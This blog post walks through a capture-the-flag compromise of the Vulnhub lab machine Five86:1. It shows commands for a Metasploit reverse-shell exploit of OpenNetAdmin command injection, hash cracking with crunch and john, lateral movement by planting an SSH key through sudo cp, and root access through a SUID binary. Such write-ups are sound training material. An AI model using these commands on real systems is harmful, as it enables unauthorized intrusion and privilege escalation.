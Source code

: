 ```yaml
---
title: 'Five86:1 Vulnhub Walkthrough'
date: 2020-01-22T07:47:00+01:00
draft: false
---
```


Today we are sharing another CTF walkthrough of the vulnhub machine named Five86-2 with the intent of gaining experience in the world of penetration testing. The credit goes to m0tl3ycr3w and syed umar for design this machine and the level is set to beginner to advanced.

_According to the author: The ultimate goal of this challenge is to get root and to read the one and only flag._

_Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools._

Download it from here: [https://www.vulnhub.com/entry/five86-1,417/](https://www.vulnhub.com/entry/five86-1,417/)

### **Penetration Testing Methodologies**

**Network scanning**

*   Netdiscover
*   Nmap

**Enumeration**

*   Exploring Http services

**Exploit OpenNetAdmin**

*   Command Injection (Metasploit)
*   Crack the hashes (john)

**Privilege Escalation**

*   Abusing Sudo
*   Abusing SUID

### **Walkthrough**

**Network Scanning**

As you know, this is the initial phase where we choose netdiscover for network scan for identifying host IP and this we have 192.168.0.126 as our host IP.

![](https://i0.wp.com/1.bp.blogspot.com/-0rWD70PbMag/XifoFRHDwPI/AAAAAAAAiQ0/6gQkQBIWO3g9fg_QkIwPf8ecX50R3D56wCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

In our next step, we love to use nmap for network ports enumeration, thus we run the following command and found port 80 is open for HTTP, moreover, we also found robots.txt displaying disallow entry for /ona as shown in the below image.

![](https://i1.wp.com/1.bp.blogspot.com/-Aipgwa6dyEQ/XifoGZlmVhI/AAAAAAAAiRI/77RhhoZPBGoO2eq_CawwjhiaIYaN58F9ACLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **Enumeration**

Thus, we navigate to a web browser and browse the following URL and found open network admin application is running on the webserver and disclosing application installed version.

```
http://192.168.0.126/ona
```

![](https://i1.wp.com/1.bp.blogspot.com/-jm0S0sRdPrY/XifoGhack5I/AAAAAAAAiRM/KKT0zxnf_0McJfgzYqGI04ikW3puPfe4gCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

As we notice that the openNetAdmin 18.1.1 version is installed on the host machine, so we explored for its exploit and found ruby script for Metasploit available to [Exploit DB](exploit-db.com/exploits/47772) to abuse OpenNetAdmin against command injection. Without wasting time, we download a malicious file from our local machine.

![](https://i2.wp.com/1.bp.blogspot.com/-53KayIS9pZM/XifoHK8DoyI/AAAAAAAAiRQ/8a_WsiORircJDGnGYnj5KtOIGF4peQPgQCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

Further, we copied the download ruby inside the Metasploit framework to use the module for exploit the host machine against its vulnerability.

![](https://i1.wp.com/1.bp.blogspot.com/-nW7bCdXV50M/XifoHRb-3EI/AAAAAAAAiRU/41fEkI7fsL0mfByGe8hW6jwfDji08zZ1gCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

### **Exploit**

After copying the exploit inside Metasploit Framework, you will need to reload the database and load the module.

Here we got our meterpreter session after running the following commands:

```
use exploit 47772  
set rhosts 192.168.0.126  
set lhost 192.168.0.132  
exploit
```

![](https://i0.wp.com/1.bp.blogspot.com/-l_pTHpIb7-M/XifoHkYNGHI/AAAAAAAAiRY/C2g98EXtXfo1IgxVS48tILyKIxsHOo2DQCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

So, we successfully exploited the host machine and spawned the shell as www-data, we decided to go with post enumeration for privilege escalation and as a result, we found the “.htaccess” file from within _/var/www/html/reports_. By reading the .htaccess we found path for .htpasswd file i.e. “/var/www/.htpasswd” , and by reading .htapasswd file we found hashes for user “douglas”. In the .htapsswd file, the author has left a hint for the password as shown in the image.

![](https://i1.wp.com/1.bp.blogspot.com/-cGr9bfryi9o/XifoHx4Eg5I/AAAAAAAAiRc/2W2LWGGj-IgTeZMdkBmRcEq2wvnpnmXSwCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

So, we found that the password is a 10-character “aefhrt” string, so you’ll need to prepare a 10-character long password dictionary. Here we use crunch to create the dictionary and execute the following command to follow the pattern of the password as the author has said.

```
crunch 10 10 aefhrt > dict.txt
```

With the help of the above command, we generated a dictionary and used the john ripper to crack the hash value. Here I saved the hash value described above in a text file called “hash” and used dict.txt wordlist to crack the hash value and run the following command.

```
john --wordlist=/root/dict.txt hash
```

As a result, we found the password: “**fatherrrrr**” for the given hash value.

![](https://i0.wp.com/1.bp.blogspot.com/-jOvvMFLe5LQ/XifoIJHz3SI/AAAAAAAAiRg/gVFbpDmpM0IZX9lhg6rYSQ1eNHc8L_KuACLcBGAsYHQ/s1600/8.1.png?w=687&ssl=1)

### **Privilege Escalation**

As we spawned the host machine shell, we try to switch as Douglas by using the password cracked above. When we signed in as Douglass, we searched for the sudo rights for him and found that he could use the copy program as “jen.”

![](https://i2.wp.com/1.bp.blogspot.com/-AOiBQPOxbDg/XifoIGD4MbI/AAAAAAAAiRk/Qa98peVsKOcz9Dc84OROqnt0I7ZwzjpbACLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

Since the author has given sudo right on copy program which could be executed as jen hence we can copy the ssh public rsa\_key of douglas inside /home/jen/.ssh so that we can be logged as jen. Thus, we executed the following commands as given below.

```
cat id\_rsa.pub > /tmp/authorized\_keys  
cd /tmp  
chmod 777 authorized\_keys  
sudo -u jen /bin/cp authorized\_keys /home/jen/.ssh
```

**![](https://i2.wp.com/1.bp.blogspot.com/-OfGdHQ5Dz2g/XifoFcQ-sTI/AAAAAAAAiQ4/JtziB2ztR04OmkBimb2DSLNiPveYDj5wACLcBGAsYHQ/s1600/10.png?w=687&ssl=1)**

Now copy id\_rsa in the /tmp directory and change the permission then try to access ssh shell on localhost as jen.

```
cd .ssh  
cp id\_rsa /tmp  
cd /tmp  
chmod 600 id\_rsa  
ssh -i id\_rsa jen@127.0.0.1
```

Hmmm! As we connected to the ssh shell as jen we found another hint “_you have a new mail_” on the ssh banner as shown in the given image.

![](https://i1.wp.com/1.bp.blogspot.com/-WWitVzpb2Sg/XifoFUOWI4I/AAAAAAAAiQ8/mscpEYwleGY6njMR3e8ZcS80NWOiA7rRQCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

So, we find a text file “jen” in / var/mails that shows a jen email. As per this message, jen knows the password for the Moss account, so we can use the Moss credential for a further move.

![](https://i0.wp.com/1.bp.blogspot.com/-VqkQdJfOguY/XifoF4W2pAI/AAAAAAAAiRA/RBHGajq3HzIeAr7Gi9URdwJHX15pTTJ0wCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

So, switched from Jen’s account to Moss and identified for SUID enabled directories, luckily here we found that the sticky bit is enabled for “upyourgame” as shown in the image.

```
find / -perm -u=s -type f 2>/dev/null  
cd .game  
./upyourgame
```

So we navigate to /home/Moss/.game/ and run the “upyourgame” program, the program launches questionnaires that are only answerable in the YES / NO format, and finally, we get the root shell and find the final flag in the /root directory as shown below.

![](https://i2.wp.com/1.bp.blogspot.com/-Rd-K3ytxL0U/XifoGcnBbJI/AAAAAAAAiRE/jTPLI1La4uUz-bZV_khGZjJp-PuGFKgrQCLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

**Author: **Shubham Sharma is a Pentester, Cybersecurity Researcher and Enthusiast, contact [**here**](https://www.linkedin.com/in/shubham-sharma-626964153/).

The post [Five86:1 Vulnhub Walkthrough](https://www.hackingarticles.in/five861-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2NJ44ED